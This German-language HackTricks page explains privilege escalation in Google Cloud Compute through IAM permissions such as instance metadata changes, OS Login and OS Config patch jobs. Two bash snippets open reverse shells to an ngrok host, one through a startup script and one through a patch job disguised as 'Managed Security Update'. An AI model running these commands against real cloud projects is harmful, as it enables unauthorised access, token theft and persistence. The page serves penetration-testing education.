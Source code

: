 # GCP - Compute Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Compute

Für weitere Informationen zu Compute und VPC (Netzwerk) in GCP siehe:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Beachte, dass du für die Durchführung aller Privilegieneskalationsangriffe, die eine Änderung der Metadaten der Instanz erfordern (wie das Hinzufügen neuer Benutzer und SSH-Schlüssel), **`actAs`-Berechtigungen über das an die Instanz angehängte SA benötigst**, selbst wenn das SA bereits angehängt ist!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Mit dieser Berechtigung kannst du die **Metadaten**-Informationen einer **Instanz** **ändern** und die **autorisierte Schlüssel eines Benutzers** **ändern** oder einen **neuen Benutzer mit sudo**-Berechtigungen **erstellen**. Daher wirst du in der Lage sein, über SSH in jede VM-Instanz zu exec und das GCP-Servicekonto zu stehlen, mit dem die Instanz läuft.\
Einschränkungen:

* Beachte, dass GCP-Servicekonten, die standardmäßig in VM-Instanzen ausgeführt werden, einen **sehr eingeschränkten Geltungsbereich** haben.
* Du musst **in der Lage sein, den SSH**-Server zu kontaktieren, um dich anzumelden.

Für weitere Informationen darüber, wie du diese Berechtigung ausnutzen kannst, siehe:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Du könntest diesen Angriff auch durchführen, indem du ein neues Startskript hinzufügst und die Instanz neu startest:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Diese Berechtigung gibt die **gleichen Privilegien wie die vorherige Berechtigung**, jedoch über spezifische Instanzen anstelle eines gesamten Projekts. Die **gleichen Exploits und Einschränkungen wie im vorherigen Abschnitt gelten**.

### `compute.instances.setIamPolicy`

Diese Art von Berechtigung ermöglicht es Ihnen, **sich selbst eine Rolle mit den vorherigen Berechtigungen zu gewähren** und Privilegien durch deren Missbrauch zu eskalieren.

### **`compute.instances.osLogin`**

Wenn **OSLogin in der Instanz aktiviert ist**, können Sie mit dieser Berechtigung einfach **`gcloud compute ssh [INSTANCE]`** ausführen und sich mit der Instanz verbinden. Sie **werden keine Root-Rechte** innerhalb der Instanz haben.

{% hint style="success" %}
Um sich erfolgreich mit dieser Berechtigung innerhalb der VM-Instanz anzumelden, müssen Sie die Berechtigung `iam.serviceAccounts.actAs` über das an die VM angehängte SA haben.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Wenn **OSLogin in der Instanz aktiviert ist**, können Sie mit dieser Berechtigung einfach **`gcloud compute ssh [INSTANCE]`** ausführen und sich mit der Instanz verbinden. Sie werden **Root-Rechte** innerhalb der Instanz haben.

{% hint style="success" %}
Um sich erfolgreich mit dieser Berechtigung innerhalb der VM-Instanz anzumelden, müssen Sie die Berechtigung `iam.serviceAccounts.actAs` über das an die VM angehängte SA haben.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Es ist möglich, eine **virtuelle Maschine mit einem zugewiesenen Dienstkonto zu erstellen und das Token** des Dienstkontos zu stehlen, indem man auf die Metadaten zugreift, um die Privilegien zu eskalieren.

Das Exploit-Skript für diese Methode finden Sie [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Wenn Sie die Berechtigungen **`osconfig.patchDeployments.create`** oder **`osconfig.patchJobs.exec`** haben, können Sie einen [**Patch-Job oder eine Bereitstellung**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) erstellen. Dies ermöglicht es Ihnen, lateral in der Umgebung zu bewegen und Codeausführung auf allen Compute-Instanzen innerhalb eines Projekts zu erlangen.

Beachten Sie, dass Sie im Moment **keine `actAs`-Berechtigung** über das an die Instanz angehängte SA benötigen.

Wenn Sie dies manuell ausnutzen möchten, müssen Sie entweder einen [**Patch-Job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **oder** eine [**Bereitstellung**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)** erstellen.**\
Führen Sie für einen Patch-Job aus:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Um ein Patch-Deployment bereitzustellen:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Das Tool [patchy](https://github.com/rek7/patchy) konnte in der Vergangenheit für das Ausnutzen dieser Fehlkonfiguration verwendet werden (aber jetzt funktioniert es nicht mehr).

**Ein Angreifer könnte dies auch für Persistenz ausnutzen.**

### `compute.machineImages.setIamPolicy`

**Gewähren Sie sich zusätzliche Berechtigungen** für das Compute-Image.

### `compute.snapshots.setIamPolicy`

**Gewähren Sie sich zusätzliche Berechtigungen** für einen Festplattensnapshot.

### `compute.disks.setIamPolicy`

**Gewähren Sie sich zusätzliche Berechtigungen** für eine Festplatte.

### Umgehung von Zugriffsberechtigungen

Folgen Sie diesem Link, um einige [**Ideen zur Umgehung von Zugriffsberechtigungen**](../) zu finden.

### Lokale Privilegieneskalation in GCP Compute-Instanz

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referenzen

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Lernen & üben Sie AWS-Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP-Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
